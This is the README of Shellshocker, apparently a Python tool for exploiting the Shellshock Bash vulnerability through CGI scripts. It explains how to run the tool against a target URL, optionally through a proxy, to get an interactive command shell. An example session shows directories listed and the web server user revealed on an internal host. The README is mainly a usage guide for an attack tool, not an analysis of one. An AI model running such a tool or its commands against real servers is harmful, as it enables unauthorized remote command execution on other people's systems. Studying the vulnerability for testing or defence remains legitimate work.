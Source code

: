 # Shellshocker
Shellshock easily exploitation

When you find Shellshock / Bashbug vulnerability and want the easiest way to exploit it, you can use Shellshocker.
Shellshocker suggests to avoid user-agent spoofing on-hand. In contrast to that it has a nice shell-interface.

### Usage:
  1a. Run the script with python: "python shellshocker.py http://exam.com/cgi-bin/cat"
  
  
  1b. If you want to use it with proxy: "python shellshocker.py http://exam.com/cgi-bin/cat 192.168.1.5:3128"


  2. Write command and hit enter


  3. Get the output and back to 2 :)

### Requirements:
  1. Python  
  2. Smile

### Examples:
```sh
/.../shellshoker$ python shellshoker.py http://10.0.0.12:591/cgi-bin/cat
shellshock/command$ ls -lath /home

total 16K
dr-xr-xr-x. 22 root    root    4.0K Feb  9 21:14 ..
drwxrwxrwx.  2 bynarr  bynarr  4.0K Jan 27  2015 bynarr
drwx------   2 apophis apophis 4.0K Jan  2  2015 apophis
drwxr-xr-x.  4 root    root    4.0K Dec 30  2014 .

shellshock/command$ whoami

apache

shellshock/command$ ^C
Aborted / Invulnerable
```
